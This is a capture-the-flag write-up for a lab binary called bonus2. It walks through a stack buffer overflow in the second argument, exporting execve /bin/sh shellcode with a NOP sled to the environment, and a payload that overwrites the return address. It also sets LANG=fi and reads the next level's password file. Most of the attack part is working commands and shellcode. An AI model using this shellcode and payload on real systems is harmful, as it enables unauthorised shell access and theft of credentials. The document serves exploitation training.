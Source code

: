 ### Download binary
``scp -P4242 bonus2@192.168.31.170:/home/user/bonus2/bonus2 ~/Desktop/``

----

### Decompilation with ghidra
We disasemble the main, to search for a breach.

----

### Main function analysis (see sources)

The main is quite complex, but after analysis the exploit is quite simple. We need to implement an adress to our shellcode after an overflow in the 2nd arg. We will put our shellcode in the environement because it is more convenient for us.

The payload that we will build is like this :

**40 char of junk, 18 char to overflow then the adress of our shellcode**

----

### Building the payload

First we export our shellcode
``export SHELLCODE=$(python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')``

After that we need to find the adress to our shellcode.

``(gdb) disas main``
>Dump of assembler code for function main:
>[...]

``(gdb) x/100s &0xbffff884``
>[...]
>"SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300Ph//shh/bin\211\343\211\301\211\302\260\v\315\200\061\300@\315\200"

By measure of safety, we will point in the middle of our NOP instruction, not at the start.

Now we got everything we need, our final payload will be :
``$(python -c "print 'A' * 40") $(python -c "print 'B' * 18 + '\x94\xf8\xff\xbf'")``

After some tries, we see that we need to set the **LANG** in env to **fi**:
``EXPORT LANG=fi``

----

#### Getting the flag

``./bonus2 $(python -c "print 'A' * 40") $(python -c "print 'B' * 18 + '\x94\xf8\xff\xbf'")``
>Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBB����

``$ cat /home/user/bonus3/.pass``
>71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
